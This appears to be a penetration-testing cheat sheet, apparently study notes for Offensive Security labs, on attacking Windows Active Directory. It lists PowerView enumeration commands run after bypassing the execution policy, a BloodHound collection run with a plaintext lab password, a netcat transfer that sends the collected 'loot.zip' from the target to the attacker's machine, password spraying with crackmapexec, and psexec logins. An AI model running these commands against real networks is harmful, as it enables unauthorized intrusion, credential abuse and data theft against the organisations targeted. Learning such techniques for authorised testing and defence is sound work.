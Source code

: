 3. ***Privilege check->Domain info->DC info->user/group info (Domain admins, loggedon user) -> Computer/service info -> File Share,Local admin access to Other***
5. `powershell -ep bypass ` `. .\PowerView.ps1` (Import Powerview to memory)
6. `Get-NetDomain` , (domain info)
7. `Get-NetDomainController` (DC info)
8.  For manual inspection `net user` (for local accounts) `net user /domain`  `net user <USERNAME> /domain` ***Look if part of Domain admin***
9.  `Get-NetUser | select cn` 
10. `Get-NetUser | select cn,pwdlastset,lastlogon` 
11. `Get-NetGroup | select cn` `Get-NetGroupMember -GroupName "Domain Admins"` `Get-NetGroup "Domain Admins | select member` 
12.  `Get-NetLoggedon -ComputerName <current Computer name>  `(Find,Currently Logged on Users: their credentials will be saved in memory so find out logged in highvalue target or lateral movement)
13.  `Get-NetComputer | select operatingsystem,dnshostname` (show all the computers OS/dnshostname in the Domain) 
14.  `Get-NetUser -SPN | select samaccountname,serviceprincipalname`
15.  `Find-LocalAdminAccess` See if we are have local admin access on other computers with current user
16.  `Invoke-ShareFinder`  `Find-DomainShare` e.g `ls \\dc1.corp.com\sysvol\`(what files are being shared)
17. `Get-NetSession -ComputerName dc01` (to verfify that domain controller is logged into what other pc)
18. **After enumeration, Use bloodhound to see shortest path to DC**
19. `bloodhound-python  -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.55.122` 
20. `neo4j console` `sudo bloodhound` and upload the files to see the shortest path to domain 
```
Transfer SharHound (exe or ps1) and nc.exe to target
Run SharpHound.exe or .ps1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <DOMAIN.LOCAL> -ZipFileNmame loot.zip
Transfer loot back to kali:
- On $LHOST: nc -nlvp 4321 > loot.zip
- On target: nc.exe -nv <kali IP> 4321 < loot.zip
- Drag loot.zip into BloodHound GUI
```
21. https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 (Some powerView Command cheatsheeet or refer below)

## Pass the Password Attack (Come back to this step for lateral movement) 
1. Lets say we have some credentials. Lets try to pass the password/hash to other connected networks. Would be great if we could get to DC straight away but usually, we wont. 
2. `crackmapexec smb 192.168.119.0/24 -u SOMEUSERNAME -d DOMAIN.LOCAL -p SOMEPASSWORD` checking the password on the different network
3. `crackmapexec smb 192.168.55.122 -u /home/kali/user1.txt -p CrabSharkJellyfish192 --continue-on-success` check if other users use the same password
4. `psexec DOMAIN/username:SOMEPASSWORD@TARGETIP ` to login if sucessful
5. E.G `python /usr/share/doc/python3-impacket/examples/psexec.py  offsec/Allison:'RockYou!'@192.168.125.59`
